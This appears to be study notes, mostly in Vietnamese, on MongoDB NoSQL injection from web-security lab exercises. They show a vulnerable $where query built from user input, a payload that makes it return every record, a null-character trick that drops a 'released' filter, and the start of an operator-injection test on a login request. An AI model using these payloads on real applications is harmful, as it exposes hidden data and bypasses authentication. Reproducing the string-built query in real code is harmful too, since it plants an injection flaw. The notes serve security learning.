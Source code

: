 
Nhớ URL encoding ⇒ rồi mới gửi

Example :  

```jsx
const products = await collection.find({
            $where: "this.category == '${category}' "
        }).toArray();
```

escape ra ngoài ⇒ chèn đúng cú pháp mã `javascript` 

Ví dụ payload  :   Gift’ || 1 || ‘x      ; vì cả $where nó sẽ nhận giá trị boolean , nó đi từng bản ghi , nếu `$where` = true thì nó lấy 

thì truy vấn sẽ thành ra như sau  :  

```jsx
   $where: "this.category == 'Gifts' || 1 || 'x' "
```

vì 1  luôn true  ⇒ lấy ra tất bản ghi 

Comment trong **mongoDB**  là `null character` 

```jsx
this.category == 'fizzy'\u0000' && this.released == 1
```

If MongoDB ignores all characters after the null character, this removes the requirement for the released field to be set to 1. As a result, all products in the `fizzy` category are displayed, including unreleased products.

### Operator Injection

Đầu tiên mình confirm với nhau một việc là nó không phải là **syntax injection** 

Test xem liệu rằng nó có work với việc mình `inject operator` không  ? 

Bằng việc so sánh 2 request 

1 . Request ban đầu  : 

```jsx
{
"username":"wiener",
"password":"peter"
}
```

Nếu ban đầu mình sử dụng cái này đăng nhập ⇒ 302  ⇒  được cấp session ⇒  redirect về / 

1. Request inject 

```jsx
{"username":{
"$eq":"wiener"
},"password":"peter"}
```

Lấy những document có username bằng `$eq` với “wiener”    và password bằng “`peter`” 
